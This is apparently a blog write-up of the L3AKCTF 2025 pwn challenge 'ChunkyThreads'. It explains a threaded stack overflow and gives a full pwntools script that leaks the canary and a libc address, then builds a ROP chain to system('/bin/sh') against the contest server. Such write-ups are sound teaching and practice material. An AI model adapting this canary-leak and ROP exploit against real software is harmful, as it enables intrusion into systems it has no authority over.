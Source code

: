 +++
author = "Velobobo"
title = "L3AKCTF 2025 - ChunkyThreads"
date = "2025-07-12"
description = ""
draft = false
slug = "l3ak-2025-chunkythreads"
ctfs = ["L3AKCTF-2025"]
tags = [
    "threads",
    "ctf",
]
categories = [
    "pwn"
]

+++

# ChunkyThreads – l3akCTF 2025

## Overview  
This binary has no pie but all other protections. it uses different threads to print out data , first we have to set the max number of threads by `CHUNKS <num>` threads can be upto 10. then we can enter a cmd like `CHUNK <sleep_time> <repeat> <data>` which uses a thread to print out data and then wait for sleep_time and print again till the data is printed `<repeat>` times. The data is stored in a buffer on stack and can be of any length.


## Reversed code
main
 {{< figure src="main.png" alt="main" width="500" >}}
parsecmd
 {{< figure src="parsecmd.png" alt="parsecmd" width="500" >}}
print
 {{< figure src="print.png" alt="print" width="500" >}}



## Exploitation Plan  
As the binary first puts and then goes to sleep , we can use a thread to leak stack canary by overwriting till the canary's null byte and then puts will leak it and we also provide a big sleep value so that the thread doesn't execute stach_chk_fail.
```python
payload=b'CHUNK 100 1 ' +b'A'*0x49
p.send(payload)
p.recvuntil(b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA')
canary=b'\x00'+p.recv(7)
canary=u64(canary.ljust(8,b'\x00'))
log.critical(f'Canary : {hex(canary)}')
```

Then we use other thread to rop , but the binary had no `pop rdi` gadget , so we had to rop from libc but for that we had to get libcbase. I was stuck here but then i just examined in gdb where the `print` function was returning to , i thought it would return in the binary but it was returning to a libc address. I didn't try to find the reason but maybe cuz threads came into play??? So then i leaked this like the same way i leaked the canary and then calculated the offset of this leaked libc address from the libcbase and hardcoded this offset as it will not change. At last we just call `system(/bin/sh)` and put the sleep time less as we want this to exit before the other 2 threads execute stack_chk_fails

Later found out that thread was started by `pthread_create` which is a libc function so the thread was returning inside this function after termination. thats why i saw print return to a libc address and not a binary address.

## Full exploit script  

```python
from pwn import *

binary='./chall_patched'
elf = context.binary = ELF(binary, checksec=False)
#context.log_level='debug'
libc=ELF('./libc.so.6',checksec=False)
#p=process(binary)
#gdb.attach(p)
p=remote("34.45.81.67",16006)
p.clean()
p.send(b'CHUNKS 8 ') # setting max threads value
p.recvline()
p.clean()

payload=b'CHUNK 100 1 ' +b'A'*0x49
p.send(payload)
p.recvuntil(b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA')
canary=b'\x00'+p.recv(7)
canary=u64(canary.ljust(8,b'\x00'))
log.critical(f'Canary : {hex(canary)}')


payload=b'CHUNK 100 1 ' +b'A'*88
p.send(payload)
p.recvuntil(b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA')
libcaddr=p.recv(6)
libcbase=u64(libcaddr.ljust(8,b'\x00'))-0x9caa4
log.critical(f'Libcaddr : {hex(libcbase+0x9caa4)}')
log.critical(f'Libcbase : {hex(libcbase)}')

libc.address=libcbase
poprdi=libcbase+0x000000000010f75b
binsh=libcbase+0x1cb42f
system=libcbase+0x58750
log.critical(f'poprdi : {hex(poprdi)}')
log.critical(f'binsh : {hex(binsh)}')
log.critical(f'system : {hex(system)}')

p.clean()
payload=b'CHUNK 1 1 ' +b'A'*0x48 + p64(canary) +b'B'*8 + p64(poprdi) + p64(binsh) +p64(0x000000000040101a) +p64(system)
p.send(payload)

p.interactive()
```

## Result  
{{< figure src="flag.png" alt="flag" width="500" >}}

Also i had to type cmds two times for it to execute on the shell , thats cuz now my input is shared by both the main process(which has 2 threads running) and also my newly exceeded shell.
